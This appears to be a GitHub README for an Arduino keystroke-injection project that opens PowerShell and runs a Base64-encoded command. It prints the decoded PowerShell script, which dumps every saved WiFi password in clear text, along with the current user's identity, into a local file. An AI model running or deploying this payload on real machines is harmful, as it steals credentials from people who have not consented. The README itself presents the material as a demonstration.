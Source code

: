 # BadArduino: Executing Commands on Windows with Arduino

This project is a demonstrative example of how to use an Arduino device to send predefined commands to a computer. The code shows how to simulate keystrokes and send commands to PowerShell using Arduino's keyboard emulation capabilities, with the `Keyboard.h` library.

⚠️ **WARNING**: This code is purely for illustrative and educational purposes. Misuse of such techniques may violate the law or security policies. Use this project only in a controlled environment and with the device owner's consent.

---

## Code Features

This code uses an Arduino (e.g., Arduino Leonardo or another device capable of keyboard emulation) to:
1. Open PowerShell using the Windows shortcut `Win + R`.
2. Execute a Base64-encoded PowerShell command, which is decoded and explained below.

> **Note:** Make sure to use the appropriate keyboard layout library for the target PC’s language. For example, `Keyboard_it_IT.h` for Italian, or another layout file that matches the intended language. This ensures that the keys are correctly interpreted on the destination system.

---

## Decoding the `EncodedCommand` Command

The Base64 encoded string executes a PowerShell command that collects various system information. Here is the original command:

```powershell
$filePath = "$env:USERPROFILE\test.txt";
$wifiProfiles = netsh wlan show profiles | Select-String "All user profiles" | ForEach-Object { ($_ -split ": ")[1].Trim() };
$output = "";
$wifiProfiles | ForEach-Object { $profile = $_; $profileInfo = netsh wlan show profile name="$profile" key=clear; $password = ($profileInfo | Select-String "Key Content").replace('^.*:\s*', ''); if (!$password) { $password = "N/A" }; $output += "Profile: $profile\nPassword: $password\n"; };
$userInfo = whoami;
$output += "`nUser Info: $userInfo`n";
$output | Out-File -FilePath $filePath;
```

This command saves a `test.txt` file containing information about WiFi profiles and other user information in the user's folder (`$env:USERPROFILE`).
